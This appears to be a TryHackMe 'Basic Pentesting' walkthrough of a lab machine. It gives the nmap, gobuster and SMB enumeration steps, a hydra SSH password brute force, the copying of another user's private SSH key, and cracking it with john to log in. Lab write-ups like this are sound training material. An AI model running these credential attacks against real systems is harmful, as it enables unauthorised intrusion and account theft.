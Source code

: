 # Basic Pentesting | TryHackMe
###1. First, nmap to the target.

`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
###2. http is available and I'm going to see it.

![picture](https://github.com/itc-n22003/new/blob/main/pictures/basic_pentesting_80.png)

I didn't find anything in particular.

###3. I'll try gobuster.

`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```

###4. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)

###5. Take a look at the SMB.
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.

###6. I'll try to connect it to Anonymous.

`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt

`more staff.txt`

I found a user named Jan.

###7. I'm going to try to do a total ssh hit on Jan with hydra.

`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`

###8. Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.

###9. Get kay key.
I'll try to see if I can get the kay key with scp.

`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`

The password is jan's.
I got it and I'm going to feed it to john.

`ssh2john id_rsa > hash`

Analyze with john.

`john --wordlist=rockyou.txt hash`

Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.

`chmod 600 id_rsa`

`ssh -i id_rsa kay@10.10.150.97`

The password is the one I just parsed.
If you can log in, check pass.bak and that's it.
